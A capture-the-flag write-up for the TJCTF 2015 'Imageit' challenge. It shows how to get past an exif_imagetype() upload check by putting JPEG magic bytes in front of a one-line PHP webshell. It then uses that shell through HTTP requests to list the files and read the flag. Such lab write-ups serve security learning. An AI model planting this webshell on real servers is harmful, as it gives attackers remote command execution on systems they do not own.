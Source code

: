 ```yaml
---
layout: post
title: "TJCTF 2015 Imageit"
date: 2015-04-29 01:21:28 -0400
author: [historypeats]
comments: true
categories: [tjctf]
---
```


### Solved by historypeats

This challenge allowed us to upload an image and view it. There are checks in place to ensure that the file is indeed an image. It is not based on the file extension. Instead, the check is performed using the exif_imagetype() php function. This function checks the magic headers of a file to determine the MIME type. This can be seen in the following code snippet:

```php
if(!in_array(exif_imagetype($_FILES["file"]["tmp_name"]),$allowed_types)){
    echo '<div class="alert alert-danger" role="alert">Image is not a PNG, JPEG, or GIF.</div>';
    $ok = 0;
}
```
This is easy enough to bypass. All we need to do is create a file with the beginning bytes being the magic headers of an image MIME type and then insert some php code for a webshell.

Creating the webshell with python:
```python
f = open('exploit.php', 'w')
f.write('\xFF\xD8\xFF\xE0' + '<? passthru($_GET["cmd"]); ?>') # This is the magic header for a JPEG image
f.close()
```
Now we have a file called exploit.php with the first bytes being the headers for a JPEG file, followed by some php code that will execute what we send in the cmd parameter. All that is left to do is upload the file, navigate to it and enter our commands.

Now that we have a webshell, I start searching for the key. I find it with the following request:
```
http://imageit.p.tjctf.org/uploads/IDqqgpwVJeOetYbFzvAmqA5Q8aD1gZ.php?cmd=ls+../
```
The results of ls for the directory above is as follows:
```
HTTP/1.1 200 OK
Server: nginx/1.6.2 (Ubuntu)
Date: Tue, 28 Apr 2015 19:57:31 GMT
Content-Type: text/html
Content-Length: 77
Connection: keep-alive
X-Powered-By: PHP/5.5.9-1ubuntu4.7
Vary: Accept-Encoding

ÿØÿàDockerfile
flag_obdf3wodfsid0f87sb9f4bs9n90
index.php
upload.php
uploads
```

All we need to do now is cat the file for the flag. I do this with the following request:
```
http://imageit.p.tjctf.org/uploads/IDqqgpwVJeOetYbFzvAmqA5Q8aD1gZ.php?cmd=cat+../flag_obdf3wodfsid0f87sb9f4bs9n90
```

And the response is:
```
HTTP/1.1 200 OK
Server: nginx/1.6.2 (Ubuntu)
Date: Tue, 28 Apr 2015 19:58:00 GMT
Content-Type: text/html
Content-Length: 19
Connection: keep-alive
X-Powered-By: PHP/5.5.9-1ubuntu4.7

ÿØÿàwhat_is_love??

```

Key: what_is_love??

